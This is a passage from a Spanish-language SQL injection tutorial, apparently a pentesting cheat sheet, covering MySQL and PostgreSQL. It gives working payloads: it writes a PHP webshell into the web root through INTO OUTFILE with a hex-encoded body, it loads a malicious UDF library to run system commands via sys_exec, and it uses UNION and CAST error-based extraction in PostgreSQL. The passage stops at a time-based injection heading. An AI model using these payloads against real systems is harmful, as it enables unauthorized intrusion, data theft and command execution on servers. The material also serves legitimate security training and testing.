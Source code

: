 #### **b) Escribir Archivos con `INTO OUTFILE`**

Si tienes permisos, puedes escribir un webshell en el servidor:

```
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20224F574E4544223B3F3E; --  
```
Esto escribe `<?php echo "OWNED"; ?>` en un archivo PHP accesible desde el navegador.
### **4. Escalada con `sys_exec()` y UDFs (User-Defined Functions)**

Si tienes permisos para crear funciones personalizadas (`root` en MySQL), puedes inyectar una función para ejecutar comandos en el sistema:

1.  **Sube una librería UDF maliciosa** (`lib_mysqludf_sys.so` en Linux o `.dll` en Windows).
2.  **Crea una función en MySQL:**
```
CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';
```
3. Ejecuta comandos:
```
SELECT sys_exec('whoami');
```
Este método es avanzado y depende de los permisos de usuario.


## PostgreSQL

### **1. Diferencias Clave en PostgreSQL**

-   **Soporta stacked queries (`;`)**, lo que facilita inyecciones avanzadas.
-   **Tiene funciones internas para ejecutar comandos en el sistema**, como `COPY FROM PROGRAM`.
-   **Es compatible con `UNION SELECT`, pero tiene su propio manejo de tipos de datos.**
-   **Usa `pg_sleep()` para inyección de tiempo.**
---

### **2. Enumeración de la Base de Datos**

Si podemos ejecutar consultas, pero no ver la respuesta en la interfaz, usamos **error-based** o **time-based**.

#### **a) Error-Based SQLi**

Forzamos un error para extraer información:
```
' UNION SELECT 1,2,3,(SELECT version()); --  
```
Otra forma es provocar un error intencionalmente con `CAST`:
```
' UNION SELECT 1,2,3,CAST((SELECT current_database()) AS INTEGER); --  
```
Si la aplicación muestra mensajes de error, puedes extraer datos directamente.

#### **b) Time-Based Blind SQLi**
